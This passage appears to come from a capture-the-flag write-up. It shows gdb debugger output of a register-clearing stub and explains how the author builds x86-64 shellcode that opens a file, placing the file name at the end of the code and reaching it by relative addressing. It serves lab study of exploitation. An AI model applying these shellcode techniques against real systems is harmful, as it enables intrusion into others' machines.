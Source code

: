> [------------------------------------stack-------------------------------------]
> 0000| 0x7fffffffeb08 --> 0x555555554ea9 (<main+325>:    mov    eax,0x0)
> 0008| 0x7fffffffeb10 --> 0x7fffffffec18 --> 0x7fffffffee28 ("/home/asm/asm")
> 0016| 0x7fffffffeb18 --> 0x155554b20
> 0024| 0x7fffffffeb20 --> 0x2effffec10
> 0032| 0x7fffffffeb28 --> 0x41414000 --> 0x3148db3148c03148
> 0040| 0x7fffffffeb30 --> 0x555555554eb0 (<__libc_csu_init>:     push   r15)
> 0048| 0x7fffffffeb38 --> 0x7ffff77e8830 (<__libc_start_main+240>:       mov    edi,eax)
> 0056| 0x7fffffffeb40 --> 0x0
> [------------------------------------------------------------------------------]
> Legend: code, data, rodata, value
> 0x0000000041414000 in ?? ()
> gdb-peda$ x/20i 0x41414000
> => 0x41414000:  xor    rax,rax
>    0x41414003:  xor    rbx,rbx
>    0x41414006:  xor    rcx,rcx
>    0x41414009:  xor    rdx,rdx
>    0x4141400c:  xor    rsi,rsi
>    0x4141400f:  xor    rdi,rdi
>    0x41414012:  xor    rbp,rbp
>    0x41414015:  xor    r8,r8
>    0x41414018:  xor    r9,r9
>    0x4141401b:  xor    r10,r10
>    0x4141401e:  xor    r11,r11
>    0x41414021:  xor    r12,r12
>    0x41414024:  xor    r13,r13
>    0x41414027:  xor    r14,r14
>    0x4141402a:  xor    r15,r15
>    0x4141402d:  nop
>    0x4141402e:  mov    rax,0x2
>    0x41414035:  lea    rdi,[rip+0x32]        # 0x4141406e
>    0x4141403c:  mov    r10,rsp
>    0x4141403f:  syscall


So, my shellcode cannot rely on any pre-existed register values.
No problem at all!

There are two ways to make the shellcode.
1. push the file name into stack
2. manually insert file name into code section

The first option is straightforward but it is little bit annoying because there is no instrution for pushing 8 bytes of characters.
If can only push 4 bytes at a time, and because of 64 bit platform, 0x000000 will added automatically in file name.
We can push 8 bytes character into register and then push register in to stack.

Instead, I used 2nd approach. I calculated the size of code section (shellcode), and used relative addressing technique to reference the file name which I manually insert at the end of shellcode.

For relative address technique, read this
https://subscription.packtpub.com/book/networking_and_servers/
9781788473736/5/ch05lvl1sec36/the-relative-address-technique
